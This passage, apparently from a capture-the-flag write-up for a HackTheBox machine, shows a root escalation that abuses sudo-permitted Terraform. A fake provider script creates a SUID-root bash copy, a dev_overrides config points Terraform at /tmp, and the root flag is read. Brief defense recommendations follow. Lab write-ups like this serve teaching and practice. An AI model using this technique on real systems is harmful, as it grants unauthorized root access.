 1. Create fake provider:
    

```plaintext
cat <<'EOF' > /tmp/terraform-provider-examples
```

```plaintext
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod u+s /tmp/rootbash
EOF
chmod +x /tmp/terraform-provider-examples
```

````plaintext
2. **Write override RC file:**
```bash
cat <<'EOF' > /tmp/terraform.rc
provider_installation {
dev_overrides {
 "previous.htb/terraform/examples" = "/tmp"
}
direct {}
}
EOF
export TF_CLI_CONFIG_FILE=/tmp/terraform.rc
````

Run Terraform as sudo (no extra flags!):

```plaintext
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

* At prompt: `yes`
    

Spawn SUID-root bash:

```plaintext
/tmp/rootbash -p
```

Capture root flag:

```plaintext
cat /root/root.txt
# 3d3258a2[...redacted...]
```

## Defense Recommendations

* Patch Next.js: Ensure all auth middleware is updated and CVE-2025–29927 is patched.
    
* Harden API input validation: Implement strict path validation and generic error responses for download endpoints.
    
* Separate secrets: Do not store app secrets and root cloud infra privileges together.
    